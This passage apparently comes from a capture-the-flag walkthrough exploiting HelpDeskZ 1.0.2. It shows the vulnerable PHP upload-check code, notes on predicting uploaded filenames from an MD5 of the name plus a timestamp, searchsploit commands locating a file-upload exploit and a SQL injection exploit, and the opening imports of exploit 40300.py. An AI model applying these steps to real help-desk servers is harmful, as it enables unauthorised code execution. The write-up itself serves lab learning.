 				     $show_step2 = true;
				     $error_msg = $LANG['INVALID_FILE_EXTENSION'];
				     break;
				     case '2':
				     $show_step2 = true;
				     $error_msg = $LANG['FILE_NOT_ALLOWED'];
				     break;
				     case '3':
				     $show_step2 = true;
				     $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				     break;
			     }
		     }
	     }	
     }

     ...
     ```

   __NOTE(S)__:
   - The ticketing service allows file attachments
   - The file is uploaded to __UPLOAD_DIR/tickets/__
   - The filename is changed:
     - A UNIX timestamp is concatenated at the end of the filename
     - The new filename is converted to an MD5 hash
     - The extension is preserved
   - The file is moved to the upload directory before verifying the attachment
>
2. Exploit HelpDeskZ's ticketing service:
   1. Search and download available exploits:
      ```console
      $ searchsploit helpdeskz

        HelpDeskZ 1.0.2 - Arbitrary File Upload                                        | exploits/php/webapps/40300.py
        HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download | exploits/php/webapps/41200.py

      # searchsploit -m exploits/php/webapps/40300.py

          Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload
              URL: https://www.exploit-db.com/exploits/40300
             Path: /usr/share/exploitdb/exploits/php/webapps/40300.py
        File Type: troff or preprocessor input, ASCII text, with CRLF line terminators

      ```
      - __`40300.py`__
        ```py
        ...omitted...
        
        import hashlib
        import time
        import sys
        import requests
